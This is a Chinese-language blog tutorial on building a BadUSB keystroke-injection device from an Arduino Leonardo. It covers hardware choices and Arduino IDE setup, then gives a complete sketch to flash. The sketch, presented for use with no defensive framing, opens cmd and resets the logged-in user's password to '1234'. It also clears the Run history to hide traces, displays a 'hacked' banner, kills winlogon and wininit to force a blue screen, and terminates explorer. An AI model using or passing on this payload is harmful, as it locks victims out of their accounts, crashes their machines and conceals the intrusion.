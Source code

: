 # 疯狂的极客--制作BadUSB

 2022-05-30 18:28:42

#### 文章目录

- [设备](https://blog.csdn.net/Peter_FHC/article/details/125051649?spm=1001.2101.3001.6661.1&utm_medium=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&utm_relevant_index=1#_5)
- [软件](https://blog.csdn.net/Peter_FHC/article/details/125051649?spm=1001.2101.3001.6661.1&utm_medium=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&utm_relevant_index=1#_12)
- [编写代码（重点）](https://blog.csdn.net/Peter_FHC/article/details/125051649?spm=1001.2101.3001.6661.1&utm_medium=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromBaidu~PaidSort-1-125051649-blog-125362082.235^v43^pc_blog_bottom_relevance_base5&utm_relevant_index=1#_25)



## 设备

1、 能够制作badusb的几种常见载体有：Arduino Leonardo、Phison、Teensy、Attiny85、PS2303（芯片）、RUBBER DUCKY等。从专业程度和易用性来讲，RUBBER DUCKY最优（Hak5官方提供了许多现成的按键脚本和[payload](https://so.csdn.net/so/search?q=payload&spm=1001.2101.3001.7020)），但价格也最贵。

2、 一台计算机

![](https://minioapi.nerubian.cn/image/20250120140744136.png)

## 软件

下载Arduino开发者工具——Arduino IDE (用来向leonardo烧录程序的软件)
这里是Arduino IDE下载地址：https://www.arduino.cc/en/software.
下载安装较为简单，这里不再赘述。安装后打开软件，你将看到如下所示的界面图：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/be09ca2126760c7997ebdafafe77f365.png)

打开工具-开发板-开发板管理器
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7ecf4498062823d2a5d0ec7eb755c41a.png)
联网安装Arduino AVR Boards板子：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/92c3b72aa291639601fd143ea96d1675.png)
回到主界面，开发板选择，选择工具-开发板- Arduino Leonardo。编程器选择，AVRISP mkII，如下图所示
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/8b0df3f7c28c06c6e2f6f456cadc553d.png)

## 编写代码（重点）

**前面的准备倒不难，关键是你要实现什么样的功能。**
这里有个快速编写命令的工具：Automator
这里附上GitHub上的下载地址：https://github.com/Catboy96/Automator

这里附上一个更改用户的密码、显示蓝屏的代码：

```c
#include<Keyboard.h>
void setup() 
{
  //初始化
  Keyboard.begin();//开始键盘通讯
  delay(5000);//延时
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(200);
  Keyboard.press(KEY_LEFT_GUI);//win键
  delay(200);
  Keyboard.press('r');//r键
  delay(200);
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.println("cmd.exe");
  delay(200);
  Keyboard.println("CMD.EXE /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&NET USER %USERNAME% 1234");//修改密码1234
  delay(200);
  Keyboard.println("color a");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ........................................................ >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("echo ## ## ### ###### ## ## ######## ######## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 0");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 1");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 2");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ######### ## ## ## ##### ###### ## ## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 3");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ######### ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 4");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 5");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ###### ## ## ######## ######## >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color 6");//更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ........................................................ >> hacked.txt");//向hacked.txt写内容
  delay(200);
  Keyboard.println("color c");//更改命令行颜色（红色）
  delay(200);
   Keyboard.println("cls");//更改命令行颜色（红色）
  delay(200);
  Keyboard.println("type hacked.txt");//将hacked.txt文件内容打印在cmd
  delay(200);
  Keyboard.println("CMD /C START /MIN CMD /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&CMD /C START /MIN CMD /C NTSD -C Q -PN WINLOGON.EXE 1>NUL 2>NUL&TASKKILL /F /IM WININIT.EXE 2>NUL");//蓝屏XP、7
  delay(200);
  Keyboard.println("taskkill /f /im explorer.exe");//删除桌面进程(all)
  delay(200);
  Keyboard.end();//结束键盘通讯
 
}
void loop()//循环
{

}
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970
```

写好代码后，点击左上角的那个对号进行编译，没有报错信息一般就是成功了。最后,插上你的usb，点击左上角第二个箭头符号进行上传，等待个几十秒就成功了。

